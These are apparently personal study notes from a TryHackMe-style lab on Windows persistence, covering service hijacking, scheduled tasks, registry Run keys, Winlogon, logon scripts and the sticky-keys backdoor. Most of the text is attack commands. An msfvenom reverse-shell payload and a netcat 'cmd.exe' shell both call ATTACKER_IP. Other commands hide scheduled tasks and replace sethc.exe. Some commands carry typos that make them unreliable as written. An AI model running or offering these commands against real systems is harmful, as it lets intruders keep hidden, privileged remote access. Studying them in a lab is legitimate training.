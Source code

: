 - **Modify**
  - sc.exe query state=all
    - sc.exe qc ServiceName
  - Important:
    - binary path name
    - start_type (auto)
    - start name (better localsystem)
    - lsmsfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKER_IP LPORT=5558 -f exe-service -o rev-svc2.exe
  - upload and edit:
    - sc.exe config THMservice3 binPath= "C:\Windows\rev-svc2.exe" start= auto obj= "LocalSystem"
    - sc.exe qc THMservice3

#### Schedule Tasks
- schtasks
  - schtasks /create /sc minute /mo 1 /tn THM-TaskBackdoor /tr "c:\tools\nc64 -e cmd.exe ATTACKER_IP 4449" /ru SYSTEM
- Hidding the task
  - remove Security Descriptor
    - HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\
  -  PsExec64.exe -s -i regedit
  -  Delete task

#### Logon as Trigger
- **Executable on startup**
  - Folder User: AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup
  - Folge ALL: ProgramData\Windows\Start Menu\Programs\Startup

- **RunOnce**
  - Force run via registry
    - HKCU\Software\Microsoft\Windows\CurrentVersion\Run
    - HKCU\Software\Microsoft\Windows\CurrentVersion\RunOnce
    - HKLM\Software\Microsoft\Windows\CurrentVersion\Run
    - HKLM\Software\Microsoft\Windows\CurrentVersion\RunOnce
  - HKCU = current user
  - HKLM = All users
  - Run = logon
  - RunOnce = singletime
  - Create registry entry
    - REG_EXPAND_SZ in HKLM\Software\Microsoft\Windows\CurrentVersion\Run
  
- **WinLogn**
  - Executed after authentication
  - HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon\
  - Userinit ==> userinit.exe = user profile preferences

- **Logon Scripts**
  - Only for current user
  - Variable: UserInitMprLogonScript
  - Assign logon script to user
  - HKCU\Environment ==> add Reg_Expand_Sy

#### Login Screen
- Sticky keys
  - 5 x shift = C:\Windows\System32\sethc.exe
  - take ownershipf of file + give permision + overwrite sethc,exe
    - takeown /f c:\Windows\System32\sethc.exe
    - icalcs c:\Windows\System32\sethc.exe /grant Administrator:F
